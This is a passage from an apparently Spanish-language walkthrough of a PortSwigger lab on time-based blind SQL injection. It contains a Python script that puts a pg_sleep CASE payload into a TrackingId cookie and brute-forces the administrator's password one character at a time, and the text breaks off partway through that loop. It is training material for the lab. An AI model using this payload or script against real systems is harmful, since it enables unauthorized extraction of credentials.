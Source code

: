 ![](/assets/images/ports-writeup-sqli/web67.png)

## Blind SQL injection with time delays and information retrieval 

<https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>

Ahora nos vamos aprovechar del tiempo para poder dumpear datos 

Bueno para dumpear datos es igual que el script de python3 pero ahora tenemos que usar el tiempo asta ahora sabemos que la tabla se users y el usuario se llama administrator 

```bash
#!/usr/bin/python3 

from pwn import *
import requests, time, signal, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c 
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0ae40016039741e7814a1bbe003600ff.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    
    password = ""

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando Fuerza Bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21): # Longitud de la contraseña 
        for character in characters:    
            
            cookies = {
                'TrackingId': "1lFKg9knAZv6c4Rh'||(select case when substring(password,%d,1)='%s' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -" % (position, character),
                'session': 'GFWmEskRVbNs1roHXayzNqy3kmOWofMd'
            }
            
            p1.status(cookies['TrackingId'])

            time_start = time.time()

            r = requests.get(main_url, cookies=cookies)
            
            time_end = time.time()

```